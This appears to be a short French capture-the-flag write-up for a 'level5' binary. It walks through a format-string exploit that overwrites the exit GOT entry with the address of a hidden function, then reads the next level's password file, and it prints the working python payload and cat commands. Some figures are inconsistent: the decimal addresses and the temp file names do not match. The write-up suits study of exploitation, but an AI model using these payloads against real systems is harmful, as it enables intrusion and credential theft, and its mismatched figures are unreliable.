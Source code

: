 On a un programme avec O et N

dans la fonction N on a un call de printf et de exit, la fonction O call uniquement exit avec un fgets (protege par les attacks buffer overflow)
on recupere l'adresse de O avec info function o qui est : 0x080484a4

si on disas le exit on voit qu'il a un jump un pointer p *0x8049838 avec sa valeur decimal qui est egal a 134513622 

on cherche a modifier le pointeur du jump de l'exit vers la fonction O donc on va remplacer le pointer 0x8049838 par l'adresse de O 0x080484a4

python -c 'print "CCCC %x %x %x %x %x"' > /tmp/test5
cat /tmp/test | ./level5

on cherche la position de notre buffer
l'adresse de exit est a la 4 eme position

donc il faut push l'adresse de o qui est : 0x080484a4 traduit en decimal : 134513628 - 4 car l'adresse fait 4 bytes

python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/test52
cat /tmp/test52 - | ./level5

cat /home/user/level6/.pass

